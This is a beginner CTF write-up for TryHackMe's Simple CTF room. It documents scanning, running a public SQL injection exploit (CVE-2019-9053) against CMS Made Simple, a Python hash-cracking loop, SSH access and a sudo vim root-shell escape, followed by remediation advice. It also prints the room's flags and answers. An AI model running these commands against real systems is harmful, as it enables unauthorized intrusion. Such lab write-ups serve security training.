








# Simple CTF — TryHackMe Writeup

> **Room:** Simple CTF  
> **Platform:** TryHackMe  
> **Difficulty:** Beginner  
> **Category:** Web Exploitation, Password Cracking, Linux Privilege Escalation  
> **Author:** Reylucha Biel  
> **Status:** Completed

---

## Executive Summary

This report documents the full exploitation path for the **Simple CTF** machine on TryHackMe. The target exposed three main services: FTP, HTTP, and SSH running on a non-standard port. The web service hosted **CMS Made Simple 2.2.8**, which is vulnerable to **CVE-2019-9053**, an unauthenticated SQL injection vulnerability.

By exploiting the SQL injection, I extracted a valid username, email address, password salt, and password hash from the CMS database. The hash was cracked using a wordlist-based attack, which revealed the password for the user `mitch`. Those credentials were then used to log in over SSH on port `2222`. After gaining initial access, local enumeration revealed another user account and a sudo misconfiguration that allowed `vim` to be leveraged for privilege escalation to root.

The attack chain was:

```text
Reconnaissance -> Web Enumeration -> CMS Version Discovery -> SQL Injection Exploitation -> Password Cracking -> SSH Login -> Local Enumeration -> sudo/vim Privilege Escalation -> Root Access
```

---

## Scope and Ethical Statement

This writeup was created for an intentionally vulnerable TryHackMe lab environment. All testing was performed inside the authorized CTF scope. The techniques shown here are intended for education, defensive understanding, and portfolio documentation only.

The same techniques must not be used against real systems unless there is explicit written permission from the system owner. In real-world security work, the correct process is to test only in authorized scope, document findings clearly, avoid unnecessary damage, and report vulnerabilities responsibly.

---

## Lab Information

| Item | Value |
|---|---|
| Target | TryHackMe Simple CTF machine |
| Target IP during testing | `10.49.138.70` |
| Operating system identified | Ubuntu/Linux |
| Main vulnerable application | CMS Made Simple |
| CMS version observed | `2.2.8` |
| Main vulnerability | SQL Injection |
| CVE | `CVE-2019-9053` |
| Initial access user | `mitch` |
| Privilege escalation vector | `sudo` permission on `vim` |

> Note: TryHackMe lab IP addresses can change when the machine is redeployed. Replace `10.49.138.70` with your own assigned target IP when reproducing the steps.

---

## Tools Used

| Tool | Purpose | Why It Was Used |
|---|---|---|
| `nmap` | Port scanning and service detection | To identify open ports, services, and versions exposed by the target. |
| `gobuster` | Web directory enumeration | To discover hidden or unlinked web paths such as `/simple/`. |
| Browser | Manual web inspection | To confirm the CMS, check visible version information, and understand the web application. |
| `searchsploit` | Local exploit database search | To quickly map the discovered CMS/version to known public exploits. |
| Python exploit script | SQL injection exploitation | To automate extraction of CMS user data through the vulnerable parameter. |
| `rockyou.txt` | Password cracking wordlist | To test whether the recovered salted hash matched a common password. |
| `ssh` | Remote login | To access the machine using the recovered valid credentials. |
| `sudo -l` / `vim` | Privilege escalation | To identify and abuse allowed sudo commands for root shell access. |

---

## Evidence Screenshots

The following screenshots were captured during testing and are included as supporting evidence.

















---

## 1. Reconnaissance

The first step was to identify the exposed attack surface. I used `nmap` with default scripts, version detection, aggressive detection, and OS detection.

```bash
nmap -sC -sV -A -O 10.49.138.70
```

### Result

```text
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
```

### Analysis

Two services were running below port `1000`:

```text
21/tcp  -> FTP
80/tcp  -> HTTP
```

The higher open port was:

```text
2222/tcp -> SSH
```

This scan was important because it showed three useful attack surfaces:

1. **FTP on port 21** — potentially useful for anonymous access or exposed files.
2. **HTTP on port 80** — likely the main web application attack surface.
3. **SSH on port 2222** — useful later if valid credentials can be found.

The HTTP service was the most interesting because web applications often expose version information, hidden directories, or vulnerable CMS components.

---

## 2. Web Directory Enumeration

After identifying the web server, I used `gobuster` to discover hidden directories and files.

```bash
gobuster dir -u http://10.49.138.70 -w /usr/share/wordlists/dirb/common.txt
```

### Result

```text
.htpasswd        (Status: 403)
.htaccess        (Status: 403)
.hta             (Status: 403)
index.html       (Status: 200)
robots.txt       (Status: 200)
server-status    (Status: 403)
simple           (Status: 301) [--> http://10.49.138.70/simple/]
```

### Analysis

The `/simple/` directory was the key discovery. Visiting it in the browser revealed a CMS Made Simple installation. At the bottom of the page, the application disclosed the CMS version:

```text
CMS Made Simple version 2.2.8
```

This is valuable because version disclosure allows an attacker to search for known vulnerabilities that affect the exact software version.

---

## 3. Vulnerability Identification

With the CMS name and version known, I searched the local Exploit-DB database using `searchsploit`.

```bash
searchsploit cms made simple
```

The relevant result was:

```text
CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/46635.py
```

### Identified Vulnerability

| Item | Value |
|---|---|
| Vulnerable software | CMS Made Simple |
| Affected version | `< 2.2.10` |
| Target version | `2.2.8` |
| Vulnerability type | SQL Injection |
| CVE | `CVE-2019-9053` |
| Exploit-DB script | `46635.py` |

### Why This Vulnerability Applies

The target was running CMS Made Simple `2.2.8`, and the discovered exploit affects versions earlier than `2.2.10`. The vulnerability is an unauthenticated SQL injection issue in the CMS Made Simple News module through the `m1_idlist` parameter.

This means an attacker does not need a valid account to exploit the vulnerability. The web application accepts attacker-controlled input and uses it unsafely in a database query, allowing data extraction from the backend database.

---

## 4. Exploitation: Extracting CMS Credentials

I copied the exploit from the local Exploit-DB path.

```bash
searchsploit -m 46635
```

Then I executed the exploit against the vulnerable CMS endpoint.

```bash
python2 46635.py -u http://10.49.138.70/simple
```

### Result

```text
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

### Analysis

The exploit successfully extracted:

| Field | Value |
|---|---|
| Username | `mitch` |
| Email | `admin@admin.com` |
| Salt | `1dac0d92e9fa6bb2` |
| Password hash | `0c01f4468bd75d7a84c7eb73846e8d96` |

The password was not immediately visible in plaintext. Instead, the exploit returned a salted hash. The next step was to crack it.

---

## 5. Password Cracking

The recovered password hash appeared to be generated using the following pattern:

```text
MD5(salt + password)
```

To crack it, I used a small Python script with the `rockyou.txt` wordlist.

```bash
python3 - << 'EOF'
import hashlib

salt = "1dac0d92e9fa6bb2"
target = "0c01f4468bd75d7a84c7eb73846e8d96"

for pw in open("/usr/share/wordlists/rockyou.txt", encoding="latin-1"):
    pw = pw.strip()
    if hashlib.md5((salt + pw).encode()).hexdigest() == target:
        print("FOUND:", pw)
        break
EOF
```

### Result

```text
FOUND: secret
```

### Analysis

The password was successfully cracked as:

```text
secret
```

This worked because the password was weak and existed inside a common password wordlist. Even though a salt was used, MD5 is a fast hashing algorithm and is not suitable for secure password storage.

---

## 6. Initial Access Through SSH

The Nmap scan showed SSH running on port `2222`. Since valid credentials had been recovered, I attempted SSH login as `mitch`.

```bash
ssh mitch@10.49.138.70 -p 2222
```

After entering the cracked password, access was granted.

```text
Username: mitch
Password: secret
```

### User Flag

Inside the user's home directory, the `user.txt` file was readable.

```bash
ls
cat user.txt
```

```text
G00d j0b, keep up!
```

### Analysis

The SQL injection did not directly provide a shell, but it exposed credentials that were reused for SSH. This is a common real-world attack path: a web vulnerability leads to credential exposure, and those credentials are then used to access another service.

---

## 7. Local Enumeration

After getting a shell as `mitch`, I enumerated the `/home` directory.

```bash
pwd
cd ..
ls
```

### Result

```text
mitch  sunbath
```

This revealed another local user:

```text
sunbath
```

### Analysis

Local enumeration is important after initial access because it helps identify:

- Other user accounts
- Interesting files
- Misconfigured permissions
- Privilege escalation paths
- Sensitive data left on the system

In this case, the important next step was checking what commands `mitch` could run with sudo privileges.

---

## 8. Privilege Escalation

The key privilege escalation vector was `vim`. If a user is allowed to run `vim` with sudo privileges, it can be abused to spawn a root shell.

A common verification step is:

```bash
sudo -l
```

The privilege escalation command used was:

```bash
sudo vim -c ':set shell=/bin/bash' -c ':shell'
```

### Result

```bash
whoami
```

```text
root
```

### Why This Works

`vim` is a powerful text editor that can execute shell commands. If it is allowed to run as root through sudo, the shell spawned from inside `vim` also runs with root privileges.

This is not a vulnerability in `vim` itself. It is a sudo misconfiguration. The system allowed a normal user to run a dangerous binary with elevated privileges.

---

## 9. Root Flag

After obtaining root access, I navigated to the root directory and read the final flag.

```bash
cd /root
ls
cat root.txt
```

### Root Flag

```text
W3ll d0n3. You made it!
```

---

## Answer Summary

| Question | Answer |
|---|---|
| How many services are running under port 1000? | `2` |
| What is running on the higher port? | `SSH` |
| What CVE was used against the application? | `CVE-2019-9053` |
| What kind of vulnerability is the application vulnerable to? | `SQL Injection` |
| What is the password? | `secret` |
| Where can you log in with the obtained details? | `SSH` |
| What is the user flag? | `G00d j0b, keep up!` |
| Is there any other user in the home directory? | `sunbath` |
| What can you leverage to spawn a privileged shell? | `vim` |
| What is the root flag? | `W3ll d0n3. You made it!` |

---

## Security Impact

The compromise was possible because several security weaknesses chained together:

### 1. Outdated CMS Version

The target used CMS Made Simple `2.2.8`, which was vulnerable to a known SQL injection issue. Public exploits were available, making exploitation easier.

### 2. SQL Injection

The application failed to properly handle user-controlled input before using it in a database query. This allowed unauthenticated extraction of sensitive data from the CMS database.

### 3. Weak Password

The cracked password was `secret`, which is extremely weak and commonly found in public wordlists.

### 4. Weak Password Hashing

The password hash was based on MD5 with a salt. A salt helps prevent simple hash reuse, but MD5 is too fast for password storage and can be cracked efficiently with wordlists or GPU-based attacks.

### 5. Credential Reuse Across Services

The recovered CMS credentials worked for SSH login. Reusing credentials across services increases the impact of a single application compromise.

### 6. Dangerous sudo Permission

The user could leverage `vim` to spawn a root shell. Allowing interactive programs to run as root through sudo can easily lead to full system compromise.

### 7. Legacy Operating System and Services

The server was running older Ubuntu and OpenSSH versions. Legacy systems often miss important security updates and may contain additional vulnerabilities.

---

## Remediation Recommendations

### Patch and Maintain the CMS

- Upgrade CMS Made Simple to a secure, supported version.
- Remove unused modules and templates.
- Monitor CMS security advisories.
- Disable public version disclosure where possible.

### Prevent SQL Injection

- Use parameterized queries or prepared statements.
- Avoid directly concatenating user input into SQL statements.
- Validate and sanitize user input server-side.
- Apply least-privilege permissions to database users.
- Consider a web application firewall as an additional defense layer, not a replacement for secure code.

### Improve Password Security

- Enforce strong password policies.
- Prevent common passwords such as `secret`, `password`, or `admin123`.
- Use modern password hashing algorithms such as `bcrypt`, `scrypt`, or `Argon2`.
- Require different passwords for CMS and SSH accounts.

### Harden SSH Access

- Use SSH key-based authentication instead of password-only login.
- Disable password authentication where possible.
- Limit SSH access to trusted users or VPN access.
- Monitor failed login attempts.
- Moving SSH to a non-standard port can reduce noise, but it should not be treated as a real security control.

### Fix sudo Misconfiguration

- Review `/etc/sudoers` and files under `/etc/sudoers.d/`.
- Avoid allowing users to run interactive programs such as `vim`, `less`, `nano`, `find`, `bash`, or `python` as root unless absolutely necessary.
- Apply the principle of least privilege.
- Use specific, restricted administrative commands instead of broad sudo permissions.

### Disable Risky FTP Configuration

- Disable anonymous FTP unless it is explicitly required.
- Prefer SFTP or FTPS for secure file transfer.
- Avoid exposing plaintext FTP credentials or sensitive files.
- Review FTP directory permissions and logging.

### Monitoring and Detection

Defenders should monitor for:

- Requests containing suspicious SQL injection payloads.
- Abnormal requests to CMS Made Simple News module parameters.
- Repeated requests that cause unusual response delays, which may indicate blind time-based SQL injection.
- Successful SSH logins from unusual sources.
- Sudo usage involving interactive binaries such as `vim`.
- Unexpected reads of `/root/root.txt` or sensitive files.

---

## Lessons Learned

This room demonstrates an important beginner-friendly penetration testing workflow:

1. Start with service enumeration.
2. Identify the most promising attack surface.
3. Enumerate the web application carefully.
4. Match discovered versions to known vulnerabilities.
5. Exploit only within authorized scope.
6. Crack recovered credentials responsibly.
7. Reuse valid credentials only inside the lab scope.
8. Enumerate the local system after initial access.
9. Check sudo permissions for privilege escalation paths.
10. Document the attack chain and defensive lessons clearly.

The most important lesson is that real compromises often happen through chained weaknesses. In this machine, SQL injection alone was not the entire story. The full compromise required outdated software, weak password practices, credential reuse, and sudo misconfiguration.

---

## Final Attack Path Diagram

```text
[Open Ports]
  |-- 21/tcp FTP
  |-- 80/tcp HTTP
  |-- 2222/tcp SSH
        |
        v
[Web Enumeration]
  -> /simple/ discovered
        |
        v
[CMS Made Simple 2.2.8]
  -> Vulnerable to CVE-2019-9053
        |
        v
[SQL Injection]
  -> Extracted username, salt, and hash
        |
        v
[Password Cracking]
  -> mitch:secret
        |
        v
[SSH Login on Port 2222]
  -> User access as mitch
        |
        v
[Local Enumeration]
  -> Found user sunbath
        |
        v
[Privilege Escalation]
  -> sudo vim shell escape
        |
        v
[Root Access]
  -> Root flag captured
```

---

## Portfolio Notes

This report is suitable for a GitHub portfolio because it shows more than just answers. It demonstrates methodology, reasoning, tool selection, exploitation flow, privilege escalation logic, and defensive remediation.

Before publishing publicly, consider redacting the final flag values if the platform or room author discourages public flag sharing.
